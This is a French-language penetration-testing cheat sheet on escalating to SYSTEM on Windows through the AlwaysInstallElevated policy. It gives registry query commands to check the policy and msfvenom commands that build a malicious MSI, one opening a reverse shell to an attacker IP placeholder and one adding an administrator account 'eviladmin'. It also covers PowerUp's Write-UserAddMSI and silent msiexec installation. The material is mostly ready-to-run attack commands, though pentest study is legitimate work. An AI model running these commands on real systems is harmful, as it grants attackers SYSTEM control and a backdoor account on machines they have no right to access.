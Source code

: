 # 06-Exploitation de AlwaysInstallElevated

La stratégie de groupe `AlwaysInstallElevated` permet aux utilisateurs non-administrateurs d'installer des packages MSI (Microsoft Installer) avec des privilèges SYSTEM. Si cette option est activée, un attaquant peut créer un package MSI malveillant pour exécuter du code en tant que SYSTEM.

## Vérification de AlwaysInstallElevated
Les deux clés de registre suivantes doivent être définies sur `1` :
```powershell
# Vérifier la clé pour HKEY_LOCAL_MACHINE
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Vérifier la clé pour HKEY_CURRENT_USER
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Si les deux valeurs sont `0x1` (ou `1`), la politique est activée.

## Création d'un Package MSI Malveillant

### Avec Metasploit (msfvenom)
```bash
# Créer un MSI pour un reverse shell x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ATTAQUANT> LPORT=<PORT> -f msi -o malicious.msi

# Créer un MSI pour ajouter un utilisateur administrateur
msfvenom -p windows/x64/exec CMD="net user eviladmin P@sswOrd123! /add && net localgroup administrators eviladmin /add" -f msi -o addadmin.msi
```

### Avec PowerUp (Write-UserAddMSI)
PowerUp peut générer un MSI qui ajoute un utilisateur.
```powershell
# Charger PowerUp.ps1
# . .\PowerUp.ps1

# Générer le MSI (par défaut, il crée un utilisateur et l'ajoute aux administrateurs)
Write-UserAddMSI
# Le fichier .msi sera généralement créé dans le répertoire courant ou C:\ProgramData\
# Vérifier la sortie de la commande pour le chemin exact du MSI.
```

## Installation du Package MSI
Une fois le MSI malveillant transféré sur la machine cible :
```powershell
# Installer le MSI en mode silencieux
msiexec /quiet /qn /i C:\chemin\vers\malicious.msi
# ou
# msiexec /i C:\chemin\vers\malicious.msi /qn
```
L'option `/quiet` ou `/qn` installe le package sans interface utilisateur. L'installation s'exécutera avec les privilèges SYSTEM si `AlwaysInstallElevated` est correctement configuré.
Vérifiez si le payload a été exécuté (par exemple, réception du reverse shell, ou vérification de la création de l'utilisateur). 